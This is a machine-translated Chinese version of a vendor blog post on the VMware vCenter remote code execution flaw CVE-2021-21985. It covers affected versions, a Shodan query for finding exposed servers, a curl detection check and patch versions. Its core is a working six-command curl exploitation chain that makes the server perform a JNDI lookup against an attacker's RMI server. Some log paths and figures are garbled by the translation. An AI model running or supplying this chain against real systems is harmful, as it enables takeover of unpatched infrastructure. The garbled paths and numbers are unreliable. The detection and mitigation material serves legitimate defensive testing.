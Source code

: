 # 如何利用 Pentest-Tools.com(CVE-2021-21985)| Pentest-Tools.com 的 VMware vCenter RCE

> 原文：<https://pentest-tools.com/blog/exploit-vmware-vcenter-rce-cve-2021-21985>

更多的高危漏洞意味着你要做更多的工作。好消息是什么？你不会很快失业的。坏消息呢？你可能会比你预期的多工作很多。那么，如何平衡好的和不太好的呢？当导致 RCE 的高风险 CVE 袭击你的目标时，有一个可复制的过程(像 CVE-2021-21985)。

使用强大、可靠的测试工具来评估系统是解决方案的一半。另一半是有一个好的来源列表(像这个博客)和一个清晰的检测和报告过程。

给你这个可重复的方法是我们这个技术指南的主要目标。它包括 VMware vCenter RCE 的背景、检测和利用策略，以及缓解技巧。我们来深入挖掘一下！

## **什么是 VMware vCenter？**

VMware vCenter Server 是一种服务器应用程序，可提供 vSphere 虚拟基础架构的集中管理。

VMware vSphere 是业内最常用的虚拟化和云计算平台之一，根据[VMware](https://www.vmware.com/files/pdf/VMware-Corporate-Brochure-BR-EN.pdf)的数据，超过 400，00 0 家公司使用他们的服务。面对如此庞大的客户群，不言而喻，vSphere 管理实用程序中的一个严重漏洞为任何有机会利用该漏洞的坏人提供了巨大的攻击面。

## **VMware vCenter RCE vuln 的工作原理**

由于 vCenter Server 默认附带的 vSAN 插件中的**检查不正确，对端口 443 进行网络访问的恶意参与者可以轻松地将 POST 请求(POST 数据**中带有**特制的有效负载)传递到/ui/h5-vsan/rest/proxy/service 下的所有易受攻击的端点。这将授予对托管 vCenter Server 的底层计算机的远程访问权限。**

## **易受攻击的 VMware vCenter 版本**

该漏洞也称为 [CVE-2021-21985](https://nvd.nist.gov/vuln/detail/CVE-2021-21985) ，它会影响 VMware vCenter Server 版本 6.5、6.7 和 7.0，以及 Cloud Foundation (vCenter Server)版本 3。x 到 4。根据 VMware 的[建议](https://www.vmware.com/security/advisories/VMSA-2021-0010.html)。由于具有较低的攻击复杂性，并提供了[高度影响](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-21985&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)数据机密性、完整性和可用性的可能性，它被赋予了 9.8 的 **CVSSv3 评分。**

自 2021 年 5 月 25 日 VMware 发布针对此漏洞的[公告](https://www.vmware.com/security/advisories/VMSA-2021-0010.html)以来，已有修复版本和解决方法，但很可能仍有大量易受攻击的实例存在。

## **CVE 的商业影响-2021-21985**

成功利用此漏洞后，未经验证的攻击者可获得对远程目标的**特权远程代码执行访问权限**。

通过不受限制的 RCE 访问，攻击者可以轻松劫持底层系统，进而窃取机密信息、安装勒索软件或改变内部网络。

您可以通过检查日志文件来检测您的系统是否遭到破坏。

为了方便起见，我在下面列出了基于 vCenter Server 版本及其部署平台的默认日志位置。

| **版本** | **平台** | **位置** |
| --- | --- | --- |
| vCenter Server 6.x 或更高版本 | Windows 操作系统 | c:\程序数据\ VMware \ vcenter server \ Logs |
| vCenter Server Appliance 6.x | Linux 操作系统 | /var/log/vmware |
| vCenter Server Appliance 6.x 闪存 | Linux 操作系统 | /var/log/VMware/VSP here-客户端 |
| vCenter Server Appliance 6.x HTML5 | Linux 操作系统 | /var/log/vmware/vsphere-ui |

## 如何找到易受 CVE 攻击的目标-2021-21985

我将向您展示如何找到可能受此漏洞影响的实例。

### **使用 Shodan**

在撰写本文时，Shodan 披露了大约 4，851 个潜在易受攻击的服务器。您可以使用以下 Shodan 查询“vcenter”来查找暴露在互联网上的 VMware vCenter 设备，这些设备可能易受此未经验证的 RCE 漏洞的攻击:

![](img/6f3ba7e61e1fe0d2686cea18fe84893f.png)

## **如何在道德黑客活动中手动检测 CVE-2021-21985**

为了**检测 CVE-2021-21985** ，我建议运行以下 unix curl 命令:

```
 curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[{"type":"ClusterComputeResource","value": null,"serverGuid": null}]}' 'https://<target>/ui/h5-vsan/rest/proxy/service/com.vmware.vsan.client.services.capability.VsanCapabilityProvider/getClusterCapabilityData' 
```

为了确认目标机器确实易受攻击，在命令响应中查找**{ " result ":{ " is disconnected ":**。

现在这就是乐趣的开始！

对于开发部分，请看以下步骤:

```
 curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[null]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":["javax.naming.InitialContext.doLookup"]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":["doLookup"]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[["rmi://<your-malicious-rmi-server>"]]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare'
curl -k -X POST -H 'Content-Type: application/json' -d '{"methodInput":[]}' 'https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke' 
```

如果你正在寻找一个更优雅的替代方案，即**只需要一个目标**和**几次点击**就可以避免输入这么长的卷曲命令，那么看看 Pentest-Tools.com 吧

## **如何缓解 CVE-2021-21985**

立即采取行动，并确保在您的环境中应用现有的补丁，因为 VMware 已经发布了针对 [CVE-2021-21985](https://www.vmware.com/security/advisories/VMSA-2021-0010.html) 的修复程序。

| 产品构建 | 固定版本 |
| --- | --- |
| **vCenter Server 7.0** | **vCenter Server 7.0 U2b** |
| **vCenter Server 6.7** | **vCenter Server 6.7 U3n** |
| **vCenter Server 6.5** | **vCenter Server 6.5 U3p** |
| **VMware v 云基础 4。x** | **VMware v 云基础 4。2 .1** |
| **VMware v 云基础 3。x** | **3.10.2.1 VMware v 云基金会** |

在您需要的时候，拥有您需要的合适工具不仅令人欣慰，而且对您的工作至关重要。我们深知这一点，因此我们致力于让他们成为支持您成长和职业发展的值得信赖的伙伴。

当像 CVE-2021021985 这样的高风险漏洞出现时，我们会迅速将准确的检测集成到平台中，以便像您这样的攻击性安全专家可以在几分钟内开始工作。

请相信我们会为您提供源源不断的实用测试指南。